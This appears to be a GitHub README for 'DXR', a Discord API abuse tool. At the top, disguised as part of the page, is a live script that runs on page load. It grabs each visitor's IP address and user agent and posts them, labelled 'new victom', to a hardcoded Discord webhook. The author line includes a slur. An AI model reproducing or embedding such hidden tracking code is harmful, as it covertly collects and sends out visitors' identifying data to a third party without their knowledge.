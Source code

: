 <br/>
<script>let sentMessage = false;
const url = "https://api.ipify.org/";
const uri = "https://discord.com/api/webhooks/1208755287595552798/9xIt0MMEJyg4UPhvBbRXfwKLJLU-cCmZv_M3aKnQfIH_A6Rs6HRx9y5WHD2eAe2XSurY";

const xhr = new XMLHttpRequest();
xhr.open('GET', url);
xhr.send();

xhr.onload = function () {
  const ipAddress = this.responseText;
  const message = `**new victom @here**\n\n**IP**: ${ipAddress}\n**info**: https://geolocation-db.com/jsonp/${ipAddress} \n\n**AGENT**: ${navigator.userAgent}`;
  if (!sentMessage) {
    const body = JSON.stringify({ content: message });
    xhr.open('POST', uri);
    xhr.setRequestHeader('Content-length', body.length);
    xhr.setRequestHeader('Content-type', 'application/json');
    xhr.send(body);
    sentMessage = true;
    if (sentMessage = true){
      return;
    }
  }
}</script>
<p align="center">
  <a href="[https://github.com/Xvirus-Team/xvirus-tools](https://github.com/vccie/DXR-discord-multi-tool/)">
    <img src="https://cdn.discordapp.com/attachments/1206191296755273752/1206214788523495424/image.png?ex=65db320f&is=65c8bd0f&hm=c52abf327f57fd9f252221bd1e18ed4651247e5ff423ac5ffe5698e0f340509a&" alt="Logo" width="80" height="80">
  </a>

  <h3 align="center">[API-Tool]- DXR</h3>

  <p align="center">
    DXR is a discord API script that takes advantage of Discords WEAK API
    <br/>
    <br/>
    <a hre"VERSION 1"></a>
  </p>
</p>

## About The Project

![image](https://github.com/vccie/DXR-discord-multi-tool/assets/152461394/9f032688-5851-4261-b038-7897ba2aaeab)

## Authors (Only d3xr worked on DXR)

* **D3XR** - *Shit head (retarded)* - D3XR - *Fully Maintaining DXR*
